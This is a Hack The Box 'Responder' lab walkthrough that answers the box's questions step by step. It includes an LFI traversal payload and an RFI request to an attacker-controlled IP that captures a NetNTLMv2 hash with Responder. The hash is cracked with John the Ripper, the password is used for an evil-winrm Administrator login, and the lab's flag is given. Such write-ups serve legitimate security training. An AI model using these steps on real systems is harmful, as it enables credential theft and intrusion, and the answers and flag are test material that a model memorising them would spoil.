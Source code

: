 # Responder
- Difficulty: Very easy

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.
![ip-address](img/ip-address.png)

## Task Breakdown
**1. When visiting the web service using the IP address, what is the domain that we are being redirected to?**
- When you access the IP address via a web browser, it redirects to `unika.htb`, but you may see a **Server not found** error
![not-found](img/not-found.png)
> **Answer:** unika.htb
- To resolve this, add the IP address to your `/etc/hosts` file. Edit this file using `sudo nano /etc/hosts`.
![hosts](img/hosts.png)
- The webpage should now display like this:
![unika](img/unika.png)

**2. Which scripting language is being used on the server to generate webpages?**
- Scan the ports using `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]`
![nmap](img/nmap.png)
> **Answer:** PHP

**3. What is the name of the URL parameter which is used to load different language versions of the webpage?**
- When we change language from En to FR, the URL also changes from `http://unika.htb/index.php` to `http://unika.htb/index.php?page=french.html`
![lang](img/lang.png)
> **Answer:** page

**4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
- Exploiting an LFI vulnerability is possible with a parameter like `../../../../../../../../windows/system32/drivers/etc/hosts`
The `../` enables directory traversal to access files outside the web root
![lfi](img/lfi.png)
> **Answer:** ../../../../../../../../windows/system32/drivers/etc/hosts

**5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
 
> **Answer:** //10.10.14.6/somefile

**6. What does NTLM stand for?**
> **Answer:** New Technology LAN Manager

**7. Which flag do we use in the Responder utility to specify the network interface?**
- Run `responder -h` to see available options.
![interface](img/interface.png)
> **Answer:** -I
- Run `responder -I tun0` as `root` to to start Responder on a specific interface.
- If you encounter an error like **Error starting TCP server on port 80, check permissions or other servers running.**, edit '/etc/responder/Responder.conf`  and change HTTPS from ON to OFF.
![off](img/off.png)

**8. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.**
> **Answer:** John The Ripper
- You can use this tool on Linux using command `john`.
![john](img/john-h.png)

**9. What is the password for the administrator user?**
- Access `http://unika.htb/index.php?page=//10.10.14.170/somefile` and capture NTLM data with Responder, which includes the client’s IP, username, and password hash.
![res](img/res.png)
- Unzip the Rock You wordlist using `sudo gunzip /usr/share/wordlists/rockyou.txt.gz`
![unzip](img/unzip.png)
- Save hash string to a file by `echo '[hash-string]' > [file-name]`
![save](img/save.png)
- Now use John The Rippter and Rock You wordlist to find the password by `john -w='[wordlist-path]' [hash-file]`
![john](img/john.png)
> **Answer:** badminton

**10. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?**
- You can check the results from the nmap scan.
> **Answer:** 5985

## Submit the flag
- Use `evil-winrm` to remotely access the machine with `evil-winrm -i [IP-Address] -u Administrator -p badminton`. Once connected, you can explore this PC by powershell.
![evil](img/evil.png)
- Wandering around and you will find the flag.
![flag](img/flag.png)
- **My flag:** ea81b7afddd03efaa0945333ed147fac

